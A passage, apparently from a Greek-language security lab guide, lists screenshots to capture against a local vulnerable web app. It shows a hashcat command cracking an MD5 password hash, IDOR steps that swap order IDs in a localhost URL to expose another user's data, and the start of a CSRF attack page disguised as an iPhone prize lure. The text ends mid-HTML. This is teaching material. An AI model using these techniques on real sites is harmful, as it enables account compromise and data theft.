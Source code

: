 **Offline Method**:
```bash
# Αν έχετε hashcat
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### Screenshot 9: IDOR Exploitation

**Setup**:
```python
# Βεβαιωθείτε ότι έχετε 2+ orders από διαφορετικούς users
# Δείτε την προετοιμασία περιβάλλοντος
```

**Demonstration**:
```
1. Login ως victim1
2. Navigate: http://localhost:8000/my-orders/
3. Note your order: ORD-DEMO1-TEST1
4. Manually change URL to: http://localhost:8000/order/ORD-DEMO2-TEST2/
5. Screenshot που δείχνει:
   - Διαφορετικό username
   - Διαφορετική διεύθυνση
   - Προσωπικά δεδομένα άλλου χρήστη
```

### Screenshot 10: CSRF Attack

**Δημιουργία Attack Page**:
```html
<!-- Αποθηκεύστε ως csrf_demo.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Συγχαρητήρια!</title>
    <style>
        body { 
            font-family: Arial; 
            text-align: center; 
            padding: 50px;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }
        .prize-box {
            background: white;
            color: #333;
            padding: 30px;
            border-radius: 10px;
            display: inline-block;
            box-shadow: 0 10px 30px rgba(0,0,0,0.3);
        }
        button {
            background: #4CAF50;
            color: white;
            padding: 15px 30px;
            border: none;
            border-radius: 5px;
            font-size: 18px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <div class="prize-box">
        <h1>🎉 Κερδίσατε iPhone 15! 🎉</h1>
```